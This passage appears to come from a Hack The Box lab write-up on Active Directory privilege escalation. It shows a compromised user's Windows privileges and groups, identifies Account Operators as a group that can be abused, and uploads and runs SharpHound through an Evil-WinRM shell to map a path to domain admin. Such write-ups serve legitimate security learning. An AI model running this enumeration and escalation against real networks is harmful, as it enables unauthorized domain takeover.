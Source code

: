 ```


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```

In the case above, some noteworthy groups are the following groups:

* `BUILTIN\Remote Management Users` -> Have permission to access the machine via WinRM.
* `BUILTIN\Account Operators` -> Have permission to manage non-admin accounts.

Since I might be able to abuse the `BUILTIN\Account Operators` group, I figured I should try seeing if being part of this group could potentially escalate my permissions to a domain admin. A great tool for visualizing the shortest path to higher privileged users on the Active Directory domain is [bloodhound](https://github.com/BloodHoundAD/BloodHound).

Since bloodhound is only a visualiztion tool, it first needs data. I was able to collect Active Directory data to visualize by using [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) which will collect data from Active Directory which I can then load into `BloodHound`.

```
*Evil-WinRM* PS C:\Windows\Temp\r0kit> upload '/home/kali/tools/BloodHound/Ingestors/SharpHound.exe'
Info: Uploading /home/kali/tools/BloodHound/Ingestors/SharpHound.exe to C:\Windows\Temp\r0kit\SharpHound.exe


Data: 1111380 bytes of 1111380 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Windows\Temp\r0kit> ls


    Directory: C:\Windows\Temp\r0kit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/9/2020  12:16 PM         833536 SharpHound.exe


*Evil-WinRM* PS C:\Windows\Temp\r0kit> .\SharpHound.exe
-----------------------------------------------
Initializing SharpHound at 12:16 PM on 9/9/2020
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache
```